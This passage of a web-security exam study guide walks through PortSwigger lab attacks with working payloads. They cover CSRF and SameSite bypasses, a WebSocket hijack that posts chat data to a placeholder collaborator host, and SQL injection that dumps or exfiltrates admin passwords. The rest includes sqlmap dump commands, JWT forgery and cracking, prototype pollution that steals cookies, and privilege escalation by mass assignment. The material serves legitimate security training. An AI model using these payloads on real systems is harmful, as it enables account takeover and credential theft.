>This is interactive exploit and in BSCP exam if the stage 1 exploit was non interactive then this can be used to obtain administrator interaction by her clicking on the link to change their password. Note to check the `source code` of the change email page for any additional form id values.  

  

[PortSwigger Lab: CSRF where Referer validation depends on header being present](https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses/lab-referer-validation-depends-on-header-being-present)  

### LastSearchTerm  

>***Identify*** the CSRF vulnerability where token not tied to non-session cookie, by changing the **csrfkey** cookie and seeing the result that the request is rejected. Observe the **LastSearchTerm** cookie value containing the user supplied input from the search parameter.  

  

>Search function has no CSRF protection, create below payload that injects new line characters ```%0d%0a``` to set new cookie value in response, and use this to inject cookies into the victim user's browser.  

```
/?search=test%0d%0aSet-Cookie:%20csrfKey=CurrentUserCSRFKEY%3b%20SameSite=None
```  

>Generate CSRF POC, Enable the option to include an **auto-submit** script and click **Regenerate**. Remove the **auto-submit** script code block and add following instead, and place ```history.pushState``` script code below body header. The **onerror** of the IMG SRC tag will instead submit the CSRF POC.  

```

```  

>During BSCP **Exam** set the email change value to that of the exploit server ***hacker@exploit-server.net*** email address. Then you can change the administrator password with the reset function.  

  

>In the below CSRF PoC code, the hidden csrf value is the one generated by the **change email** function and the csrfkey value in the `img src` is the value of the victim, obtained by logging on as victim provided credentials. not sure in exam but real world this is test to be performed.  

```html
<html>
  <body>
    <script>history.pushState('', '', '/')</script>
    <form action="https://TARGET.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacker&#64;exploit&#45;0a18002e03379f0ccf16180f01180022&#46;exploit&#45;server&#46;net" />
      <input type="hidden" name="csrf" value="48hizVRa9oJ1slhOIPljozUAjqDMdplb" />
      <input type="submit" value="Submit request" />
    </form>
	    
  </body>
</html>
```  

[PortSwigger Lab: CSRF where token is tied to non-session cookie](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-tied-to-non-session-cookie)  
  
### CSRF duplicated in cookie  

>In the target we ***identify*** that the CSRF key token is duplicated in the cookie value. Another ***indicator*** is the cookie ```LastSearchTerm``` contain the value searched. By giving search value that contain ```%0d%0a``` we can inject an **end of line** and **new line** characters to create new CSRF cookie and value.  

  

>In the exploit code ```img src``` tag we set cookie for csrf to fake.  

```html
<html>
  <body>
    <form action="https://TARGET.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="ATTACKER&#64;EXPLOIT-SERVER&#46;NET" />
      <input type="hidden" name="csrf" value="fake" />
      <input type="submit" value="Submit request" />
    </form>
    
  </body>
</html>
```  

  

[PortSwigger Lab: CSRF where token is duplicated in cookie](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-duplicated-in-cookie)  

### CSRF Token Present  

>Changing the value of the ```csrf``` parameter result in change email request being **rejected**. Deleting the CSRF token allow the change email to be **accepted**, and this ***identify*** that the validation of token being present is vulnerable.

>CSRF PoC Payload hosted on exploit server:  

```html
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="$param1name" value="$param1value">
</form>
<script>
    document.forms[0].submit();
</script>
```  

  

[PortSwigger Lab: CSRF where token validation depends on token being present](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-token-being-present)  

### Is Logged In  
  
>If cookie with the **isloggedin** name is ***identified***, then a refresh of admin password POST request could be exploited. Change username parameter to administrator while logged in as low privilege user, CSRF where token is not tied to user session.  

```html
POST /refreshpassword HTTP/1.1
Host: TARGET.net
Cookie: session=%7b%22username%22%3a%22carlos%22%2c%22isloggedin%22%3atrue%7d--MCwCFAI9forAezNBAK%2fWxko91dgAiQd1AhQMZgWruKy%2fs0DZ0XW0wkyATeU7aA%3d%3d
Content-Length: 60
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="109", "Not_A Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://TARGET.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
X-Forwarded-Host: EXPLOIT.net
X-Host: EXPLOIT.net
X-Forwarded-Server: EXPLOIT.net
Referer: https://TARGET.net/refreshpassword
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

csrf=TOKEN&username=administrator
```  

  
  
### CSRF No Defences  

>Target with no defences against email change function, can allow the privilege escalation to admin role. In the exam changing the email to the `attacker@EXPLOIT.NET` email address on the exploit server can allow the attacker to change the password of the admin user, resulting in privilege escalation.  
>In the exam there is only ***one*** active user, and if the previous stage was completed using an attack that did not require the involving of the active user clicking on a link by performing poison cache or performing phishing attack by means of `Deliver to Victim` function, then CSRF change exploit can be used.  

  

[PortSwigger Lab: CSRF vulnerability with no defences](https://portswigger.net/web-security/csrf/lab-no-defenses)  

### SameSite Strict bypass  

>In the live chat function, we notice the `GET /chat HTTP/2` request do not use any unpredictable tokens, this can ***identify*** possible  [cross-site WebSocket hijacking](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking) (CSWSH) vulnerability if possible to bypass [SameSite](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions) cookie restriction.  

>Host on exploit server POC payload to ***identify*** CSWSH vulnerability.  

```
<script>
    var ws = new WebSocket('wss://TARGET.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://COLLABORATOR.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```  

>The `SameSite=Strict` is set for session cookies and this prevent the browser from including these cookies in XSS cross-site requests. We ***Identify*** the header `Access-Control-Allow-Origin` in additional requests to script and images to a subdomain at `cms-`.  
>Browsing to this CDN subdomain at `cms-` and then ***identify*** that random user name input is reflected, confirmed this to be a [reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected) vulnerability.  

[cms reflected xss samesite bypass](images/cms-reflected-xss-samesite-bypass.png)  

```
https://cms-TARGET.net/login?username=%3Cscript%3Ealert%28%27reflectXSS%27%29%3C%2Fscript%3E&password=pass
```  

>Bypass the SameSite restrictions, by URL encode the entire script below and using it as the input to the CDN subdomain at `cms-` username login, hosted on exploit server.  


```
<script>
    var ws = new WebSocket('wss://TARGE.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://COLLABORATOR.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```  

>Host the following on exploit server and deliver to victim, once the collaborator receive the victim chat history with their password, result in account takeover.  

```
<script>
    document.location = "https://cms-TARGET.net/login?username=ENCODED-POC-CSWSH-SCRIPT&password=Peanut2019";
</script>
```  

>The chat history contain password for the victim.

  

[PortSwigger Lab: SameSite Strict bypass via sibling domain](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-sibling-domain)  

### SameSite Lax bypass  

>Observe if you visit `/social-login`, this automatically initiates the full OAuth flow. If you still have a logged-in session with the OAuth server, this all happens without any interaction., and in proxy history, notice that every time you complete the OAuth flow, the target site sets a new session cookie even if you were already logged in.  

>Bypass the popup blocker, to induce the victim to click on the page and only opens the popup once the victim has clicked, with the following JavaScript. The exploit JavaScript code first refreshes the victim's session by forcing their browser to visit `/social-login`, then submits the email change request after a short pause. Deliver the exploit to the victim.  

```
<form method="POST" action="https://TARGET.net/my-account/change-email">
    <input type="hidden" name="email" value="administrator@exploit-server.net">
</form>
<p>Click anywhere on the page</p>
<script>
    window.onclick = () => {
        window.open('https://TARGET.net/social-login');
        setTimeout(changeEmail, 5000);
    }

    function changeEmail() {
        document.forms[0].submit();
    }
</script>
```  

[PortSwigger Lab: SameSite Lax bypass via cookie refresh](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-cookie-refresh)  
    
-----

## Password Reset  

[Refresh Password broken logic](#refresh-password-broken-logic)  
[Current Password](#current-password)  

### Refresh Password broken logic  

>If the application [Refresh Password](#subtly-invalid-login) feature is flawed, this vulnerability can be exploited to identify valid accounts or obtain password reset token. This can lead to identifying valid users accounts or privilege escalation.  
    
>This is the type of vulnerability that do not require active user on application to interact with the exploit, and without any user clicking on link or interaction. Take note of vulnerabilities that do not require active user on application for the BSCP exam, as this mean in the next stage of the exam it is possible to use for example [other](#cors) interactive phishing links send to victim.   
  
>***Identify*** in the `source code` for the `/forgot-password` page the username is a hidden field.  

  

>Exploit the post request by deleting the ```temp-forgot-password-token``` parameter in both the URL and request body. Change the username parameter to ```carlos```.  

  

[PortSwigger Lab: Password reset broken logic](https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-reset-broken-logic)  
  
### Current Password  

>***Identify*** the Change password do not need the ```current-password``` parameter to set a new password, and the **user** whom password will be changed is based on POST parameter ```username=administrator```  
>In the PortSwigger labs they provide you the credentials for ```wiener:peter```, and this simulate in the exam stage 1 achieved low level user access. In exam this password reset vulnerability is example of how it is possible without **interaction** from active user to privilege escalate your access to admin.  
  
>Intercept the ```/my-account/change-password``` request as the ```csrf``` token is single random use value, set ```username=administrator```, and remove ```current-password``` parameter.  

  

[PortSwigger Lab: Weak isolation on dual-use endpoint](https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-weak-isolation-on-dual-use-endpoint)  
  
-----

## SQL Injection  
  
[Blind Time Delay](#blind-time-delay)   
[Blind SQLi](#blind-sqli)  
[Blind SQLi no indication](#blind-sqli-no-indication)  
[Blind SQLi Conditional Response](#blind-sqli-conditional-response)  
[Oracle](#oracle)  
[SQLMAP](#sqlmap)  
[Non-Oracle Manual SQLi](#non-oracle-manual-sqli)  
[Visual error-based SQLi](#visual-error-based-sqli)  
[HackTheBox CPTS SQLi Fundamentals](https://github.com/botesjuan/cpts-quick-references/blob/main/module/SQL%20Injection%20Fundamentals.md)
  
>Error based or Blind SQL injection vulnerabilities, allow SQL queries in an application to be used to extract data or login credentials from the  database. SQLMAP is used to fast track the exploit and retrieve the sensitive information.  

>***Identify*** SQLi, by adding a double (") or single quote (') to web parameters or tracking cookies, if this break the SQL syntax resulting in error message response, then positive SQL injection ***identified***. If no error or conditional message observed test blind [Time delays](https://portswigger.net/web-security/sql-injection/cheat-sheet) payloads.  

[SQL Injection cheat sheet examples](https://portswigger.net/web-security/sql-injection/cheat-sheet)  

  

### Blind Time Delay  

>Blind SQL injection with time delays is tricky to ***identify***, fuzzing involves educated guessing as OffSec also taught me in OSCP. The below payload will perform conditional case to delay the response by 10 seconds if positive SQL injection ***identified***. 

>Identify SQLi vulnerability. In [Burp Practice exam Stage 2](https://portswigger.net/web-security/certification/takepracticeexam/index.html) the advance search filters are vulnerable to `PostgreSQL`. I found `SQLMAP` tricky to identify and exploit the practice exam vulnerability in advance search. Manual exploit of the SQL injection time delay in [Practice Exam here](#practice-exam-postgresql-timedelay).  

```SQL
;SELECT CASE WHEN (1=1) THEN pg_sleep(7) ELSE pg_sleep(0) END--
```

>[URL encoded](https://www.urlencoder.org/) `PostgreSQL` payload.  

```SQL
'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(7)+ELSE+pg_sleep(0)+END--
```  

>Determine how many characters are in the password of the administrator user. To do this, increment the number after ` >1 ` conditional check.  

```SQL
;SELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

  

>Using CLUSTER Bomb attack to re-run the attack for each permutation of the character positions in the password, and to determine character value.  

```SQL
;SELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,§1§,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```  

>Using CLUSTER bomb attack type with two payload, first for the length of the password ` 1..20 ` and then second using characters ` a..z ` and numbers ` 0..9 `. Add the **Response Received** column to the intruder attack results to sort by and observe the ` 10 ` seconds or  more delay as positive response.  

  

[PortSwigger Lab: Blind SQL injection with time delays and information retrieval](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval)  

#### Practice Exam PostgreSQL TimeDelay  

>In the Burp Practice exam stage 2 the SQL injection is escaped not using single quote ` ' ` but using a semicolon `;` and then URL encoding it as `%3B`.  

```SQL
%3BSELECT+pg_sleep(7)--
```  

  

>With a Intruder CLUSTER bomb attack the password can be extracted in one single attack with two payload positions in the below payload.  

```SQL
;SELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,§1§,1)='§a§')+THEN+pg_sleep(7)+ELSE+pg_sleep(0)+END+FROM+users--
```  

>Stage 3 of the Burp Practice exam admin portal require exploitation of an [insecure deserialization](#ysoserial) cookie value.  

### Blind SQLi  

>Target is vulnerable to Out of band data exfiltration using Blind SQL exploitation query. In this case the trackingID cookie.  Below is combination of SQL injection and XXE payload to exploit the vulnerability and send administrator password as DNS request to the collaborator service.  

```sql
TrackingId=xxx'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.COLLABORATOR.NET/">+%25remote%3b]>'),'/l')+FROM+dual--
```  

  
  
[PortSwigger Lab: Blind SQL injection with out-of-band data exfiltration](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band-data-exfiltration)  
  
>The SQL payload above can also be used to extract the Administrator password for the this [PortSwigger Lab: Blind SQL injection with conditional errors](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors) challenge.  

### Blind SQLi no indication  

>Placing a single quote at end of the ```trackingid``` cookie or search parameter `/search_advanced?searchTerm='` may give response `500 Internal Server Error`. Make an educated guess, by using below blind SQLi payload and combine with basic XXE technique, this then makes a call to collaboration server but no data is ex-filtrated.  

```sql
TrackingId=xxx'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//COLLABORATOR.NET/">+%25remote%3b]>'),'/l')+FROM+dual--
```  
  
  

>Additional SQLi payload with XML for reference with ```||``` the SQL concatenation operator to concatenate two expressions that evaluate two character data types or to numeric data type and do some obfuscating.  

```
'||(select extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % fuzz SYSTEM "http://Collaborat'||'OR.COM/">%fuzz;]>'),'/l') from dual)||'
```  

[OAST - Out-of-band Application Security Testing](https://portswigger.net/burp/application-security-testing/oast)  

[PortSwigger Lab: Blind SQL injection with out-of-band interaction](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band)  
  
### Blind SQLi Conditional Response

>This blind SQL injection is ***identified*** by a small message difference in the responses. When sending a valid true SQL query the response contain ```Welcome back``` string in response. Invalid false SQL query statement do not contain the response conditional message.  

```
' AND '1'='1
```

>False SQL statement to ***identify*** conditional message not in response.  

```
' AND '1'='2
```  

>Determine how many characters are in the password of the administrator user. To do this, change the SQL statement value to and in intruder **Settings tab**, at the "Grep - Match" section. Clear any existing entries in the list, and then add the value ```Welcome back``` to ***identify*** true condition.  
  
```
' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
```

>Next step is to test the character at each position to determine its value. This involves a much larger number of requests.  

```
' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='a
```

  

>Alternative use a **CLUSTER Bomb** attack and setting **two** payload positions, first one for the character position with a payload of numbers ```1..20``` and the second position, using alpha and number characters, this will iterate through each permutation of payload combinations.  

  

[PortSwigger Lab: Blind SQL injection with conditional responses](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses)  
  
### Oracle  

>Identified SQL injection by adding a **single quote** to the end of the `category` parameter value and observing response of `500 Internal Server Error`.  
  
>Retrieve the list of tables in the Oracle database:  

```
'+UNION+SELECT+table_name,NULL+FROM+all_tables--
```  

>Oracle payload to retrieve the details of the columns in the table.  

```
'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_XXX'--
```  

>Oracle payload to retrieve the usernames and passwords from Users_XXX table.  

```
'+UNION+SELECT+USERNAME_XXX,+PASSWORD_XXX+FROM+USERS_XXX--
```  
  
[PortSwigger Lab: SQL injection attack, listing the database contents on Oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)  

### SQLMAP  

>In the [PortSwigger Practice Exam APP](https://portswigger.net/web-security/certification/takepracticeexam/index.html) we ***identify*** SQLi on the advance search function by adding a single quote and the response result in `HTTP/2 500 Internal Server Error`.

>Here is my HackTheBox CPTS study notes on SQLMAP examples to bypass primitive protection WAF mechanisms. [SQLMAP Essentials - Cases](https://github.com/botesjuan/cpts-quick-references/blob/main/module/sqlmap%20Essentials.md#exercise-cases)  

>After doing some testing with SQLMAP versions `1.7.2#stable` and `1.6`, I found that both are able to exploit the PortSwigger Practice exam. Walkthrough from [bmdyy doing the Practice Exam using SQLMAP](https://youtu.be/yC0F05oggTE?t=563) for reference of the parameters used.  

[PortSwigger Forum thread - SQLMAP](https://forum.portswigger.net/thread/stage-2-of-practice-exam-with-sqlmap-1-7-2-2078f927)  

>I took the practice exam and was able to exploit SQLi using below payload.  

```
sqlmap -u 'https://TARGET.net/filtered_search?SearchTerm=x&sort-by=DATE&writer=' \ 
  -H 'authority: 0afd007004402dacc1e7220100750051.web-security-academy.net' \
  -H 'accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' \
  -H 'accept-language: en-US,en;q=0.9' \
  -H 'cookie: _lab=YesYesYesYes; session=YesYesYesYes' \
  -H 'referer: https://TARGET.net/filtered_search?SearchTerm=x&sort-by=DATE&writer=' \
  -H 'sec-ch-ua: "Chromium";v="111", "Not(A:Brand";v="8"' \
  -H 'sec-ch-ua-mobile: ?0' \
  -H 'sec-ch-ua-platform: "Linux"' \
  -H 'sec-fetch-dest: document' \
  -H 'sec-fetch-mode: navigate' \
  -H 'sec-fetch-site: same-origin' \
  -H 'sec-fetch-user: ?1' \
  -H 'upgrade-insecure-requests: 1' \
  -H 'user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.5563.65 Safari/537.36' \
  -p 'sort-by' -batch --flush-session --dbms postgresql --technique E --level 5
```  

  

>This is also a good start with SQLMAP to ***identify*** and extract data from a sensitive error based time delay SQL injection in advance search filters on the exam.  

```
sqlmap -v -u 'https://TARGET.NET/search?term=x&organizeby=DATE&journalist=&cachebust=1656138093.57' -p "term" --batch --cookie="_lab=YESYESYESYES; session=YESYESYESYES" --random-agent --level=2 --risk=2
```  



[SQLMAP Help usage](https://github.com/sqlmapproject/sqlmap/wiki/Usage)  

>SQLMAP DBS to get databases.  

```
-p 'sort-by' -batch --dbms postgresql --technique E --level 5 --dbs
```  

>Use SQLMAP dump tables identified from `public` database.  

```
-p 'sort-by' -batch --dbms postgresql --technique E --level 5 -D public --tables
```  

>ContinueUse SQLMAP `E` Technique to get the `users` content.  

```
-p 'sort-by' -batch --dbms postgresql --technique E --level 5 -D public -T users --dump
```  

### Non-Oracle Manual SQLi  

>SQL injection UNION attack, determining the **number of columns** returned by the query.  

```SQL
'+UNION+SELECT+NULL,NULL--
```  

>Determined there is **two** columns returned. Finding a column containing ```text```, to be used for reflecting information extracted.  

```SQL
'+UNION+SELECT+'fuzzer',NULL--
```  

>Next ***identifying*** a list of **tables** in the database.  

```SQL
'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
```  

>**OPTIONAL:** Retrieve data from other tables, use code below payload to retrieve the contents of the ```users``` table.  

```SQL
'+UNION+SELECT+username,+password+FROM+users--
```  

>Retrieve the names of the **columns** in the ***users*** table.  

```SQL
'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_XXXX'--
```  
  
>**Final** step is to the **dump data** from the username and passwords columns.  

```SQL
'+UNION+SELECT+username_XXXX,+password_XXXX+FROM+users_XXXX--
```  

>**EXTRA:** If you only have one column to extract text data, then concatenate multiple values in a single reflected output field using SQL syntax ```||``` characters from the database.  

```
'+UNION+SELECT+NULL,username||'~'||password+FROM+users--
```  

  

[PortSwigger Lab: SQL injection attack, listing the database contents on non-Oracle databases](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)  
  
### Visual error-based SQLi  

>Adding a single quote to the end of the `TrackingId` cookie value, we can ***identify*** and confirm the SQL Injection based on the message in the response.  

  

>The two payloads validate administrator record is the first record, and then to retrieve the password for the Administrator account from the `user` table in the database, from the columns `username` and `password`.  

```
TrackingId=x'||CAST((SELECT username FROM users LIMIT 1) AS int)--;
  
TrackingId=x'||CAST((SELECT password FROM users LIMIT 1) AS int)--;
```  

>Due to the cookie value length limit the payload is shortened by using `limit 1`, and the actual cookie value replace with just a letter `x`. SQL Injection used the [CAST function](https://portswigger.net/web-security/sql-injection/blind).  

  

[PortSwigger Lab: Visible error-based SQL injection](https://portswigger.net/web-security/sql-injection/blind/lab-sql-injection-visible-error-based)  

-----

## JWT  

[JWT bypass via JWK](#manual-sqli)  
[JWT Weak secret](#jwt-weak-secret)  
[JWT kid header](#jwt-kid-header)  
[JWT arbitrary jku header](#jwt-arbitrary-jku-header)  


>JSON web tokens (JWTs) use to send cryptographically signed JSON data, and most commonly used to send information ("claims") about users as part of authentication, session handling, and access control.  

### JWT bypass via JWK  

>The burp scanner ***identify*** vulnerability in server as, **JWT self-signed JWK header supported**. Possible to exploit it through failed check of the provided key source.  
>**jwk (JSON Web Key)** - Provides an embedded JSON object representing the key.  

>Authentication bypass Exploit steps via jwk header injection:  

1. New RSA Key  
2. In request JWT payload, change the value of the **sub claim** to administrator  
3. Select Attack, then select **Embedded JWK** with newly generated RSA key  
4. Observe a ```jwk``` parameter now contain our public key, sending request result in access to admin portal  
  
  

[PortSwigger Lab: JWT authentication bypass via jwk header injection](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-jwk-header-injection)  

### JWT Weak secret  

>Brute force weak JWT signing key using `hashcat`.  

```bash
hashcat -a 0 -m 16500 <YOUR-JWT> /path/to/jwt.secrets.list 
```  

>Hashcat result provide the secret, to be used to generate a forged signing key.  

[PortSwigger JWT authentication bypass via weak signing key](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-weak-signing-key)  

### JWT kid header  

>JWT-based mechanism for handling sessions. In order to verify the signature, the server uses the `kid` parameter in JWT header to fetch the relevant key from its file system. Generate a new **Symmetric Key** and replace ` k ` property with the base64 null byte `AA==`, to be used when signing the JWT.  
>**kid (Key ID)** - Provides an ID that servers can use to identify the correct key in cases where there are multiple keys to choose from.  

>JWS  

```
{
    "kid": "../../../../../../../dev/null",
    "alg": "HS256"
}
```  

>Payload  

```
{
    "iss": "portswigger",
    "sub": "administrator",
    "exp": 1673523674
}
```  

  

[PortSwigger Lab: JWT authentication bypass via kid header path traversal](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-kid-header-path-traversal)  

### JWT arbitrary jku header  

>Burp scanner identified vulnerability stating the application appears to trust the `jku` header of the JWT found in the manual insertion point. It fetched a public key from an arbitrary URL provided in this header and attempted to use it to verify the signature.  
>**jku (JSON Web Key Set URL)** - Provides a URL from which servers can fetch keys containing the correct key.  

>Exploit steps to Upload a malicious JWK Set, then Modify and sign the JWT:  

1. Generate **New RSA Key pair** automatically, and ignore the size.  
2. On the exploit server body create **empty JWK** ` { "keys": [ ] } `.  
3. **Copy Public Key as JWK** from the new RSA key pair generate in previous step, in between the exploit body square brackets ` [ paste ] `.  
4. Copy kid value of generate RSA key into the `/admin` request JWT header `kid` value.  
5. Set new ```jku``` parameter to the value of the exploit server URL `https://exploit-server.net/exploit`.  
6. Change JWT payload value of the ```sub``` claim to `administrator`.  
7. On the `/admin` request in repeat, at bottom of the JSON Web Token tab, click `Sign`.
8. On Sign option, then select the `RSA signing key` that was generated in the previous steps.  
9. Send request, and gain access to admin portal.  
  
  

>The exploit server hosting the JWK public key content.  

```JSON
{ "keys": [
{
    "kty": "RSA",
    "e": "AQAB",
    "kid": "3c0171bd-a8cf-45b5-839f-645fa2a57009",
    "n": "749eJdyiwAYYVV    <snip>   F8tsQ_zu23DhdoePay3JlYXmza9DWDw"
}
]}
```
  
  

[PortSwigger Lab: JWT authentication bypass via jku header injection](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-jku-header-injection)  
  
-----

## ProtoType Pollution  

>Attacker add arbitrary properties to global JavaScript object prototypes, which is inherited by user-defined objects that lead to client-side DOM XSS or server-side code execution.  

[Client-Side Proto](#client-side-proto)  
[Server-Side Proto](#server-side-proto)  
[Dom Invader Enable Prototype Pollution](https://portswigger.net/burp/documentation/desktop/tools/dom-invader/prototype-pollution#enabling-prototype-pollution)  
  
### Client-Side Proto  

>A target is vulnerable to DOM XSS via client side prototype pollution. **[DOM Invader](#dom-invader)** will ***identify*** the gadget and using a hosted payload to performing phishing directed at the victim and steal their cookie.  

>Exploit server Body section, host an exploit that will navigate the victim to a malicious URL.  

```html
<script>
    location="https://TARGET.NET/#__proto__[hitCallback]=alert%28document.cookie%29"
</script>  
```  

  

>Above image show the **Deliver to Victim** phishing request being send.  

[PortSwigger Lab: Client-side prototype pollution in third-party libraries](https://portswigger.net/web-security/prototype-pollution/finding/lab-prototype-pollution-client-side-prototype-pollution-in-third-party-libraries)

  

### Server-Side Proto  

>To ***identify*** Proto pollution, insert the follow into a JSON post request when updating a user profile information authenticated as low privileged role.  
>See instruction video by [Trevor TJCHacking](https://youtu.be/oYAxbRiB0Jk) about PrivEsc via server-side prototype pollution.  

```JSON
"__proto__": {
    "foo":"bar"
}
```  

  
  
>Observe the ```isAdmin``` property and resend the POST update account with the ```__proto__``` payload below to elevate our access role to Administrator.  

```JSON
"__proto__": {
    "isAdmin":true
}
```  

[PortSwigger Lab: Privilege escalation via server-side prototype pollution](https://portswigger.net/web-security/prototype-pollution/server-side/lab-privilege-escalation-via-server-side-prototype-pollution)  

-----

## API Testing  
  
[Exploiting a mass assignment](#exploiting-a-mass-assignment)  
[API Reset Password Parameter Pollution](#api-reset-password-parameter-pollution)  

### Exploiting a mass assignment  

>API performing GET request and directly after a POST request and in the POST request notice additional JSON parameters in the body of response, indicate hidden parameter fields.
>Add hidden fields such as `{"admin":true}` can elevate access to higher privileged users or gain sensitive information about user.

>In below lab exercise the ecommerce site have a discount parameter and adding it with value of 100 allow for the product to be free on checkout.

  

>Privilege escalation using API endpoints hidden parameters in POST or PATCH HTTP verb request.

```json
{
    "username": "carlos",
    "email": "carlos@exploit.com",
    "isAdminLevel": true
}
```

[PortSwigger Lab: Exploiting a mass assignment vulnerability](https://portswigger.net/web-security/api-testing/lab-exploiting-mass-assignment-vulnerability)  

### API Reset Password Parameter Pollution  

>Notice the reset password API function uses parameter in POST body for username. To ***identify*** aditional hidden parameters for the API function insert random parameter ```&x=y``` to observe error message leaking information of positive result.
>URL encode the random parameter and add it to current POST body parameters ```username=administrator%26x=y```.

>Based on the response there is possible second parameter named `field` and reviewing the JavaScript source code there is `reset_token` parameter.

  

>Adding the additional parameter `field` with variable `reset_token` in the POST request, leak the senitive information to reset password token.

  

Browsing to the target URL and adding the stolen reset token, and change the administrator or carlos user password to gain access.  

[PortSwigger Lab: Exploiting server-side parameter pollution in a query string](https://portswigger.net/web-security/api-testing/server-side-parameter-pollution/lab-exploiting-server-side-parameter-pollution-in-query-string)  

-----  

## Access Control  
  
[JSON roleid PrivEsc](#privesc-json-roleid)  
[Original URL](#original-url)  
[Drop Select a role](#drop-select-a-role)  
[Trace to Admin](#trace-to-admin)  
[HTB requested I remove my write-up for CPTS Skills assessments - IDOR](https://github.com/botesjuan/cpts-quick-references/blob/main/module/Web-Attacks.md#idor)

### PrivEsc JSON RoleId  

>Access control to the admin interface is based on user roles, and this can lead to privilege escalation or access control (IDOR) security vulnerability.  

>Capture current logged in user email change email submission request and send to **Intruder**, then add `"roleid":§32§` into the JSON body of the request, and fuzz the possible `roleid` value for administrator access role.  

```html
POST /my-account/change-email HTTP/1.1
Host: TARGET.net
Cookie: session=vXAA9EM1hzQuJwHftcLHKxyZKtSf2xCW
Content-Length: 48
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Connection: close

{
 "csrf":"u4e8f4kc84md743ka04lfos84",
 "email":"carlos@server.net",
 "roleid": 42
}
```  

>The Hitchhiker's Guide to the Galaxy answer was [42](https://en.wikipedia.org/wiki/Phrases_from_The_Hitchhiker%27s_Guide_to_the_Galaxy#42_Puzzle)  

  

>Attacker ***identify*** the possible role ID of administrator role and then send this request with updated roleId to privilege escalate the current logged in user to the access role of administrator.  

  

[PortSwigger Lab: User role can be modified in user profile](https://portswigger.net/web-security/access-control/lab-user-role-can-be-modified-in-user-profile)  

### Drop Select a role  
  
>Escalation to administrator is sometimes controlled by a role selector GET request, by **dropping** the `Please select a role` GET request before it is presented to the user, the default role of **admin** is selected by back-end and access is granted to the admin portal.  

  

[PortSwigger Lab: Authentication bypass via flawed state machine](https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-authentication-bypass-via-flawed-state-machine)  

### Original URL  

>Admin portal only accessible from internal. ***Identify*** if access control can be bypassed using header `X-Original-URL`, observe different response to `/admin` endpoint requests depending on header value.  

```
X-Original-URL: /admin
```  

  
  
